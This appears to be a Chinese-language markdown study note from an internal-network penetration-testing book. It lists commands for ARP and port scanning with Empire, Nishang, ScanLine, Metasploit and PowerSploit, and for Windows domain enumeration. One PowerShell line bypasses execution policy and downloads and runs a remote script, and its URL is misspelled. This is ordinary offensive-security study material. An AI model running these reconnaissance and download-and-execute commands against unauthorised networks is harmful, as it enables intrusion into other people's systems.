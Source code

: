 ### 2.5.3 通过ARP扫描探测内网
+ arp-scan工具
`arp.txt -t 192.168.1.1/24`
+ Empire中的arpscan模块
`usemodules situational_awareness/network/arpscan`
+ Nishang中的Invoke-ARPScan.ps1脚本
`powershell.exe -exec bypass -Command "& {import-module C:\windows\temp\invoke-ARPScan.ps1; Invoke-ARPScan -CIDR 192.168.1.1/24}" >> C:\windows\temp\log.txt`
### 2.5.4 通过常规TCP/UDP端口扫描探测内网
+ ScanLine
`scanline -h -t 22,80-89,110,389,445,3389,1099,1433,2049,6379,7001,8080,1521,3306,5432 -u 53,161,137,139 -O C:\windows\temp\log.txt -p 192.168.1.1-254 /b`
## 2.6 扫描域内端口
+ 利用telnet扫描
`telnet DC 22`
+ S扫描器
> windows2003及以下
`s.exe TCP 192.168.1.1 192.168.1.254 445,3389,1433,7001,1099 256 /Banner /save`
+ metasploit端口扫描
`search portscan`
+ powersploit的Invoke-portscan.ps1
`powershell.exe -nop -exec bypass -c "IEX (New-Object Net-WebClient).DOwnloadString('https://raw.githunbusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.1/24 -T 4 -ports '445,1433,8080,3389,80' -oA C:\windows\temp\res.txt"`
+ Nishang的Invoke-PortScan模块
`Get-Help Invoke-portscan -full`
|参数 |说明 |
|----|----|
|StartAddress |扫描范围的开始地址|
|EndAddress |扫描范围的结束地址|
|ScanPort |进行端口扫描|
|Port |指定端口扫描|
>默认扫描的端口有:21,22,23,53,69,71,80,98,110,139,111,389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389,5801,5900,5555,5901
扫描存活主机并解析主机名
`Invoke-PortScan -StartAddress 192.168.1.1 -EndAddress 192.168.1.255 -ResolvHost`
### 2.6.6 端口Banner信息(57页)
## 2.7 收集域内信息
### 查询域
` net view /domain`
### 查询域内所有计算机
`net view /domain:域名`
### 查询域内所有用户组列表
`net group /domain`
> 系统自带的常见用户身份
+ Domain Admins : 域管理员
+ Domain Computers : 域内机器
+ Domain Controllers : 域控制器
+ Domain Guest : 域访客,权限较低
+ Domain Users : 域用户
+ Enterprise Admin : 企业系统管理员用户
> 默认情况下,Domain Admin和Enterprise Admin对域内所有域控制器有完全的控制权限
### 查询所有域成员计算机列表
`net group "domain computers" /domain`